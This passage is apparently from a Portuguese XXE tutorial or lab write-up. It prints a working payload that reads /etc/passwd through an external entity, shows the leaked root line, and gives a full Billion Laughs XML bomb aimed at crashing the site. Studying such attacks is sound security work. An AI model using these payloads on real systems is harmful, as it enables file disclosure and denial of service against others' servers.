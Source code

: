 
Como podemos ver através do resultado, utilizando XXE conseguimos explorar um SSRF.

### Como funciona?

Quando injetamos o payload, ele é passado para o servidor que não possui filtros para mitigar XXE, sendo assim o servidor utiliza um parser e envia o output do XML parseado, que no nosso caso será o arquivo `bugs.txt` que será exposto ao atacante devido a query XML.

### Arquivo remoto

Nesse caso o atacante poderá utilizar scripts maliciosos hosteados remotamente com objetivo de obter acesso ou informações privilegiadas, vamos tentar obter o arquivo `/etc/passwd` do servidor alvo, o payload enviado será o seguinte:

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE reset [
<!ENTITY roz SYSTEM "file:///etc/passwd">
]><reset><login>&roz;</login><secret>Any bugs?</secret></reset>
```

E o retorno será:

```
root:x:0:0:root:/root:/usr/bin/bash
...'s secret has been reset!
```

### Ataque DOS XXE <i>Billion Laugh</i>

<i>Billion Laugh</i> é um tipo de ataque DOS que o alvo são os parsers de documentos XML, também é conhecido como XML bomb ou ataque de expansão exponencial de entidade.

O ataque consiste em chamar a entidade multiplas vezes, e isso leva tempo exponencial para executar, o que se torna um DoS attack derrubando o website.

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE reset [
  <!ENTITY roz "DoS">
  <!ENTITY roz1 "&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;&roz;">
  <!ENTITY roz2 "&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;&roz1;">
  <!ENTITY roz3 "&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;&roz2;">
  <!ENTITY roz4 "&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;&roz3;">
  <!ENTITY roz5 "&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;&roz4;">
  <!ENTITY roz6 "&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;&roz5;">
  <!ENTITY roz7 "&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;&roz6;">
  <!ENTITY roz8 "&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;&roz7;">
]>

<reset><login>&roz8;</login><secret>Any bugs?</secret></reset>
```